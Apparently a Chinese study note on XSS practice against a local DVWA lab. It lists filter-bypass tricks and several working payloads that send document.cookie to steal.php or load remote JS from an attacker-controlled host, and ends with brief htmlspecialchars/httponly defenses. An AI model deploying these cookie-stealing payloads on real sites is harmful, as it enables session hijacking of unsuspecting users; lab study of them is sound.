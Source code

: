 ##dvwa学习xss

### 测试环境

win7虚拟机 ，ip 192.168.255.151，用phpstudy将dvwa 环境 搭在 8081端口

一台物理机，ip 192.168.1.101,作为我的vps，用于获取xss返回的cookie,用phpstudy搭建的环境，808端口存有 cookie.js，steal.php等文件

火狐浏览器，谷歌浏览器有 xss filter

搭建数据库sql：

```

	create database dvwacookie;
	
	use dvwacookie;
	
	create table low(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table medium(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table high(id int not null auto_increment primary key,cookie varchar(100) not null);

```


### 参考资料

[新手科普 通过DVWA学习XSS](https://www.freebuf.com/articles/web/157953.html)

[针对不同标签的xss利用汇总](https://www.cnblogs.com/xiaozi/p/5588099.html)

[xssbypass](https://d3adend.org/xss/ghettoBypass)

[xss变形](https://www.jb51.net/tools/xss.htm)


### xss介绍

WEB前端中最常见的两种安全风险，XSS与CSRF，XSS，即跨站脚本攻击、CSRF即跨站请求伪造,两者属于跨域安全攻击。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

xss分为 存储型，反射型，dom型。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

存储型xss 通过留言板等输入框注入的脚本存在于靶机服务器的数据库中

反射性xss 利用脚本与服务器交互，绕过限制

DOM型的XSS是不需要与服务器交互的，它只发生在客户端处理数据阶段。

简单理解DOM XSS就是出现在javascript代码中的xss漏洞。

DOM型XSS是前端代码中存在了漏洞，而反射型和存储型是后端代码中存在了漏洞。

反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，在dom xss中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

### xss危害

获取到用户的cookie信息或者劫持用户跳转到钓鱼网站
 

### 专用扫描工具

XSSER,XSSF等

工具扫描效率高存在误报，不如手动扫描准确。

### xss利用


#### 注入方式

1双写绕过

2大小写混淆绕过

3虽然无法使用```<script>```标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```

	<iframe src=1 onload='alert(1)' /><iframe>

	<iframe src=1 onmouseover=alert('xss') y=2016 /><iframe>
	
	<iframe src="../csrf" onload='alert(frames[0].document.getElementsByName("user_token")[0].value)'>

	<img src=1 onerror=alert(/xss/)>

	<body onload='alert(/xss/)'</body>

	<svg onload=alert("xss")>
	
```

4 dom xss 注入

4.1 标签闭合  （会破坏页面结构，隐蔽性不如注释方法）

```></option></select><img src=1 onerror=alert('hack')>```

```</option></select><svg onload=alert("xss")>```
 
4.2  注释

``` #<script src=http://192.168.1.101:808/b.js></script>``` 
\#会注释掉，后面的内容不会发送到后台

5. 存储型和反射型xss

为了绕过  '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i'  正则，

可将插入代码中的i进行html字符实体编码以绕过正则

```<img src=# onerror=(locat&#x69;on.href="http://192.168.1.101:8081/steal.php?data="+document.cookie)>```

直接跳转到steal.php

[**html字符 转换 字符实体在线编码**](https://www.qqxiuzi.cn/bianma/zifushiti.php)

在python 中解码函数 print (html.unescape('&#20013;&#22269;'))


js操作ajax(注入字符过多，不推荐)

```<img src=# onerror='var url="http://192.168.1.101:808/steal.php";var postStr="data="+document.cook&#x69;e;var ajax=null;&#x69;f(w&#x69;ndow.XMLHttpRequest){ajax=new XMLHttpRequest();}else &#x69;f(w&#x69;ndow.Act&#x69;veXObject){ajax=new Act&#x69;veXObject("M&#x69;crosoft.XMLHTTP");}else{ajax=null;}ajax.open("POST",url,true);ajax.setRequestHeader("Content-Type", "appl&#x69;cat&#x69;on/x-www-form-urlencoded");ajax.send(postStr);'>```

jq操作ajax(注入字符过多，不推荐)(这里使用短链接会异常，应该是浏览器解析dom的问题)

```
<img src=# onerror="var a=document.createElement('scr&#x69;pt');a.setAttr&#x69;bute('src', 'https://dwz.cn/tA0Ob030');document.getElementsByTagName('head')[0].appendCh&#x69;ld(a);var b= document.createElement('scr&#x69;pt'); b.setAttr&#x69;bute('src','http://192.168.1.101:808/c.js');document.getElementsByTagName('head')[0].appendChild(b);">```

```ALTER TABLE guestbook MODIFY name VARCHAR(180);```

js操作原生态ajax,不用引用jquery，最节省代码,171字符

```<img src=# onerror="var b= document.createElement('scr&#x69;pt');
b.setAttribute('src','http://192.168.1.101:808/b.js');
document.getElementsByTagName('head')[0].appendChild(b);">```

6.限制输入字符长度的浏览器注入方法

chrome: F12 ，Elements , 选定元素，Edit as HTML

firefox:F12 ，inspector/查看器，编辑html， 修改 maxlength

7.记录cookie

```<img src=# onerror=(location.href="http://192.168.1.101:808/steal.php?data="+document.cookie)>```

这种方式有个缺点就是将cookie发送到steal.php后他会刷新页面跳转到steal.php，所以要用ajax优化

在有xss漏洞的位置插入:


```<script src=http://192.168.1.101:808/cookie.js></script>```

相当于构造链接:

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/xss_r/?name=<script src=http://192.168.1.101:808/cookie.js></script>```

也可以用jquery操作ajax，但是需要引入头文件例如 ```https://cdn.bootcss.com/jquery/1.10.2/jquery.min.js```

[**百度短网址**](https://dwz.cn/)

```<script src=https://dwz.cn/tA0Ob030></script><script src=http://192.168.1.101:808/c.js></script>```   成功跨域获取cookie,压缩到刚好100字节(还可以服务器使用80端口继续压缩字节)

**将链接发给该网站下的受害者，受害者点击时就会加载远程服务器（vps）上的cookie.js脚本，这里要提一点，用src加载远程服务器的js脚本，那么js的源就会变成加载它的域，从而可以读取该域的数据。这时，vps的数据库就接收到了cookie。**

观察firebug的javascript控制台，看到已拦截跨源请求：同源策略禁止读取位于 http://192.168.1.101:808/steal.php 的远程资源。（原因：CORS 头缺少 'Access-Control-Allow-Origin'）

因为ajax严格遵从同源策略，当前加载cookie.js的域为http://192.168.255.151:8081,所以ajax不能读取不同域http://192.168.1.101下的数据，但是cookie已经被发送到了http://192.168.1.101域，steal.php已经将偷取到的cookie存放在了数据库中,而且页面没有刷新，很隐蔽。

8.js ，jq操作 ajax对比



### xss反制

htmlspecialchars 把预定义的字符&、”、 ’、<、>转换为 HTML 实体，防止浏览器将其作为HTML元素。转义可能引起跨站漏洞的标签

http层做到防护，给cookie设置httponly属性，使cookie不能被javascript读取，才能有效防止用户cookie被盗用的问题